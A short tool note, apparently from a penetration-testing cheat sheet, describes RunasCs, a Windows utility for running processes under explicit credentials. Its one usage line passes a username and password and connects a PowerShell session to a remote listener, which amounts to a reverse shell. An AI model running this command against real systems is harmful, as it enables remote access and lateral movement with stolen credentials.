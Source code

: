 # runasCs

## Overview

RunasCs is an utility to run specific processes with different permissions than the user's current logon provides using explicit credentials. This tool is an improved and open version of windows builtin runas.exe that solves some limitations.


## Usage

    ./RunasCs.exe <username> <password> powershell.exe -r <localip>:<port>

## More Information

https://github.com/antonioCoco/RunasCs